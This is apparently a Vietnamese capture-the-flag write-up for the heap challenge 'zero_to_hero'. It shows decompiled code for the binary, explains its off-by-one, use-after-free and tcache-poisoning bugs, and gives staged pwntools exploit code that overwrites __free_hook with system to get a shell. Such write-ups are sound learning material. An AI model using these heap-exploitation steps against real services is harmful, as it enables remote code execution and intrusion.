










# Challenge: zero_to_hero


```
Bug:
Off-by-one
Use-after-free
Tcache-poisoning
```

## Pseudo Code
-main():
```c
void __fastcall __noreturn main(int a1, char **a2, char **a3)
{
  int opt; // [rsp+Ch] [rbp-24h] BYREF
  _BYTE buf[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  puts("From Zero to Hero");
  puts("So, you want to be a hero?");
  buf[read(0, buf, 0x14u)] = 0;
  if ( buf[0] != 121 )
  {
    puts("No? Then why are you even here?");
    exit(0);
  }
  puts("Really? Being a hero is hard.");
  puts("Fine. I see I can't convince you otherwise.");
  printf("It's dangerous to go alone. Take this: %p\n", &system);
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      printf("> ");
      opt = 0;
      __isoc99_scanf("%d", &opt);
      getchar();
      if ( opt != 2 )
        break;
      remove();
    }
    if ( opt == 3 )
      break;
    if ( opt != 1 )
      goto LABEL_10;
    add();
  }
  puts("Giving up?");
LABEL_10:
  exit(0);
}
```
-add():
```c
unsigned __int64 add()
{
  _BYTE *v0; // rbx
  unsigned int size; // [rsp+0h] [rbp-20h] BYREF
  int idx; // [rsp+4h] [rbp-1Ch]
  unsigned __int64 v4; // [rsp+8h] [rbp-18h]

  v4 = __readfsqword(0x28u);
  size = 0;
  idx = sub_4009C2();
  if ( idx < 0 )
  {
    puts("You have too many powers!");
    exit(-1);
  }
  puts("Describe your new power.");
  puts("What is the length of your description?");
  printf("> ");
  __isoc99_scanf("%u", &size);
  getchar();
  if ( size > 0x408 )
  {
    puts("Power too strong!");
    exit(-1);
  }
  qword_602060[idx] = malloc(size);
  puts("Enter your description: ");
  printf("> ");
  v0 = (_BYTE *)qword_602060[idx];
  v0[read(0, v0, size)] = 0;
  puts("Done!");
  return __readfsqword(0x28u) ^ v4;
}
```
-remove():
```c
unsigned __int64 remove()
{
  unsigned int idx; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  idx = 0;
  puts("Which power would you like to remove?");
  printf("> ");
  __isoc99_scanf("%u", &idx);
  getchar();
  if ( idx > 6 )
  {
    puts("Invalid index!");
    exit(-1);
  }
  free(*((void **)&qword_602060 + idx));
  return __readfsqword(0x28u) ^ v2;
}
```

## Phân tích:

- Chương trình đầu tiên sẽ cho không chúng ta địa chỉ system của libc -> có được địa chỉ system + địa chỉ libc_base



- Đầu tiên, với hàm add cho phép ta malloc với 1 chunk size < 0x408 bytes và ghi vào đó với size đó. Điểm mấu chốt là nó thay kí tự cuối thành '\0' -> bug off-by-one



- Với hàm remove(), ta có thể thấy free nhưng ko xoá con trỏ nên ta hoàn toàn có thể use-after-free



- Vấn đề là chương trình dùng glibc 2.29 nên ta ko thể trực tiếp free 2 lần 1 địa chỉ, nên ta phải tìm cách khác

- Kết hợp với buf off-by-one tại hàm add để thay đổi giá trị của preinuse của chunk sau để double free

- Từ đó ta sẽ ghi đè __free_hook -> system(), rồi free chunk chứa chuỗi "/bin/sh" là xong.

## Khai thác:

### Stage 0: Lấy libc_base

- Lấy system và libc_base, tự định nghĩa hàm:

```py
p.sendline(b"y")
p.recvuntil(b"It's dangerous to go alone. Take this: ")
system = int(p.recvline()[:-1], 16)
log.info("system_leak: " + hex(system))
libc.address = system - 0x52fd0
log.info("libc_base: " + hex(libc.address))

def add(size, data):
    p.sendlineafter(b'> ', "1")
    p.sendlineafter(b"your description?\n", str(size).encode())
    p.sendlineafter(b"description: \n", data)

def remove(idx):
    p.sendlineafter(b'> ', "2")
    p.sendlineafter(b"to remove?\n", str(idx).encode())
```

### Stage 1: Double free

- Đầu tiên ta sẽ tạo lần lượt 2 chunk với size là 0x18 và 0x108, rồi free lần lượt chunk 1 rồi 0. Với mục đích ghi đè phần preinuse của chunk 1.

```py
add(0x18, b'1'*8)
add(0x108, b'2'*8)

remove(1)
remove(0)
```



- Giờ ta sẽ malloc với đúng size 0x18 là ghi đủ 0x18 byte để ghi đè phần preinuse(mong đợi: 111 -> 100)

```py
add(0x18, b'A'*0x18)
```



```py
remove(1)
```


-> đã có 2 chunks trỏ vào 0x250c0280

### Stage 2: Ghi đè __free_hook() -> system()

- Ta sẽ thêm 1 chunk với size (0xf8) vào điền data là địa chỉ của hàm __free_hook

- Thêm tiếp 1 chunk với size 0x108 và điền chuỗi "/bin/sh" để chút nữa khi trigger xong sẽ gọi system("/bin/sh")

- Cuối cùng ta tiếp tục thêm chunk với size 0x108 để trigger __free_hook, sau đó gọi free đúng với idx chứ /bin/sh là xong



```py
add(0x100-0x8, p64(libc.sym.__free_hook))
add(0x108, b'/bin/sh\0')
# GDB()
add(0x108, p64(system))

remove(4)
```





-> Thành công với shell local

**REMOTE:**



***-> Đã chiếm được shell***